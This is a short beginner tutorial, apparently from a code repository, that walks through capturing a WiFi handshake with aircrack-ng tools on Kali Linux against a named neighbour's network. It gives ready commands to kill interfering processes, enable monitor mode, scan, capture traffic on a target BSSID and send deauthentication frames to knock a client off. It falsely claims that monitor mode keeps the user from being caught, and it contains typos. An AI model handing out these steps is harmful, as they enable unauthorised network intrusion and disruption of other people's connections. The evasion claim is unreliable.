






Reaver

Welcome to this free and fast tutorial of basic reaver commands! At the end you'll have learnend the skill of penetrating a wifi.
educational purposes

Welcome to this free and fast tutorial of basic reaver commands! At the end you'll have learnend the skill of penetrating a wifi.
educational purposes
Lets start with opening the kali linux Virtual Machine (VM Recomended!)


After opening kali we'll need to make sure that our wifi eth etc is conected (You will need an usb called tp link)

After Making sure we had the usb tp link connected to our virtual machine on kali we'll proceed with our first 2 commands
sudo airmon-ng check kill
sudo airmong-ng start wlan0

This 2 commands will make you get into monitor mode so you will be safe from being catched
Now lets go for the first lan scann:
sudo airodump-ng wlan0

Now we'll chose the wifi we want, in our case we'll choose
We recomend you to note it on kali linux notes

We're choosing A35 de Aran
Now we'll be searching on the aran's wifi with the next command
-c is channel: Look at your one, and -w is write so we'll be writing on capture_file, bssid is for the bssid lan
sudo airodump-ng -c 6 --bssid puthereyourbssid -w capture_file wlan0

Now we will be opening a new cmd tab and we'll put the next script:
sudo aireplay-ng --deauth 1 -a PUTHERETHEBSSID -c PUTHERESTATION wlan0

We're finishing soon!
Now we'll go back to the other cmd opened and it might appear something called handshake, this wont appear everytime you try, this is just a basic method